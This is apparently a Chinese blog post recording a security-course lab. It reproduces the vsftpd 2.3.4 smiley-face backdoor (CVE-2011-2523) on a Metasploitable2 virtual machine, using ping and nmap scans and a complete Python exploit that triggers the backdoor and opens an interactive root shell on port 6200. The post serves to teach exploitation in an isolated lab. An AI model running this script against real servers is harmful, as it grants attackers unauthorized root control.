




```yaml
---
layout: post
title: 网络安全作业：vsftpd笑脸漏洞PoC编写与复现
date: 2026-11-02 12:00:00 +0800
categories: 网络安全 渗透测试
---

## 一、实验目的
1. 掌握渗透测试前期信息收集方法，完成端口与服务版本探测
2. 复现 CVE-2011-2523 vsftpd 2.3.4 笑脸后门漏洞
3. 编写 Python 版漏洞检测 PoC，验证漏洞危害

## 二、实验环境
- 攻击机：Kali Linux
- 靶机：Metasploitable2，IP：`192.168.70.129`
- 两台虚拟机均为 NAT 模式，同网段互通

## 三、漏洞简介
CVE-2011-2523（笑脸漏洞）存在于 vsftpd 2.3.4 版本：当用户名包含 `:)` 符号时，服务端会自动在 6200 端口开启无密码 root 权限 Shell，攻击者可直接获取服务器最高控制权。

## 四、实验步骤
### 1. 网络连通性测试
在 Kali 终端执行 ping 命令，验证靶机网络可达。
```bash
ping 192.168.70.129
```



### 2. 端口服务版本扫描
使用 Nmap 探测靶机 21 端口的 FTP 服务版本，确认漏洞存在条件。
```bash
nmap -sV -p 21 192.168.70.129
```


扫描结果显示靶机 21 端口开放，运行 vsftpd 2.3.4，符合漏洞复现条件。

### 3. Python PoC 脚本编写
基于 Python socket 库编写检测脚本，核心逻辑：发送带笑脸的恶意用户名触发后门，连接 6200 端口获取交互 Shell。


完整脚本代码：
```python
import socket
import time

def smile_backdoor_check(target_ip, ftp_port=21, shell_port=6200):
    ftp_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    ftp_sock.settimeout(5)
    ftp_sock.connect((target_ip, ftp_port))
    ftp_sock.recv(1024)

    # 发送带笑脸的恶意用户名触发后门
    ftp_sock.send(b"USER root:)\r\n")
    time.sleep(0.3)
    ftp_sock.send(b"PASS test123\r\n")
    time.sleep(1)
    ftp_sock.close()

    # 连接后门端口获取Shell
    shell_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    shell_sock.settimeout(3)
    shell_sock.connect((target_ip, shell_port))
    print("漏洞存在，成功获取root Shell")
    
    while True:
        cmd = input("# ")
        if cmd.lower() == "exit":
            shell_sock.close()
            break
        shell_sock.send((cmd + "\n").encode())
        print(shell_sock.recv(4096).decode("utf-8", errors="ignore"))

if __name__ == "__main__":
    target = input("输入靶机IP：")
    smile_backdoor_check(target)
```

### 4. 漏洞利用验证
运行 PoC 脚本，输入靶机 IP 触发漏洞，连接 6200 端口。
```bash
python3 smile_poc.py
```


执行 `id` 命令，返回 `uid=0(root)`，确认已获取靶机 root 最高权限。

